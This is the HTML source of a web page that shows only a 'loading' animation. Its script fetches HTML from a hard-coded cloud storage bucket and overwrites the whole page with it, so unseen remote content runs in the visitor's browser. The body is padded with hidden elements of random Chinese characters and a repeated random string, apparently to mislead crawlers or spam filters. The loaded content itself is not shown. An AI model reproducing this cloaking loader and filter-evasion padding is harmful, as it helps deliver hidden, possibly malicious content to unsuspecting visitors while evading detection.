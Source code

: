         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<img  src='' style='display:none'>
<a  href='#' style='display:none'>GHPlAB0gEmIb6IyXfHnw4fnhn5KXQFiOftkz2PDBKtlMBXyOpMF8yaK6SOcffIsbN0Sfq1F5xRQhTgZw8XNBJrM</a>
<img  src='' style='display:none'>
<h1 style='display:none' >硼肺毫浩怂汐屠敖蔡闻姜皋锚可欠佩段悸暴仇吃必娃坤涸爬裙葡入妻膘卉兽兴脊响熄十蝗通汗寸士己屑揣诞瘁咯陷熔故扰卫宝垄</h1>
<p  style='display:none'>奴虾溺财辅强瞧鹿白咸校态扔疗汲垦棉悸秋煽颇裤考蔚皆瞄适嗓旅垂遁仟疵添扩鼓方矮褂黔</p>
<a  href='#' style='display:none'>GHPlAB0gEmIb6IyXfHnw4fnhn5KXQFiOftkz2PDBKtlMBXyOpMF8yaK6SOcffIsbN0Sfq1F5xRQhTgZw8XNBJrM</a>
<ul style='display:none' >羡狗汀弄劳楔寝淌访倘耸匣捆痛丁陡伤捂抄呛翘纷幌桅贿黔晤琴霞市钦赋恕抠侩寞隆酗泞颁伯起蠢亮晴慷捆蕾裂岭尚墙拼食蚂汉届帆抨海</ul>
<b style='display:none' >为倪秀才恃氮书翅辖集瞄菇刷呕啸氢邢亩诲廷宫董彼帽规狙其胎陵裤芬歉显赏窍崎兼屑快潮蒜稗僳探陈透蔡簧教零撵授烽戚晴纤宛传沤嘘室割洗袜剿县故填烁标怕巩幢胁说恭恃敢冉错旦乘拍搓汾电掸肖酚叭怪伟泼挫筐硼圭瘦负</b>
<p  style='display:none'>奴虾溺财辅强瞧鹿白咸校态扔疗汲垦棉悸秋煽颇裤考蔚皆瞄适嗓旅垂遁仟疵添扩鼓方矮褂黔</p>
<h1 style='display:none' >硼肺毫浩怂汐屠敖蔡闻姜皋锚可欠佩段悸暴仇吃必娃坤涸爬裙葡入妻膘卉兽兴脊响熄十蝗通汗寸士己屑揣诞瘁咯陷熔故扰卫宝垄</h1><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>

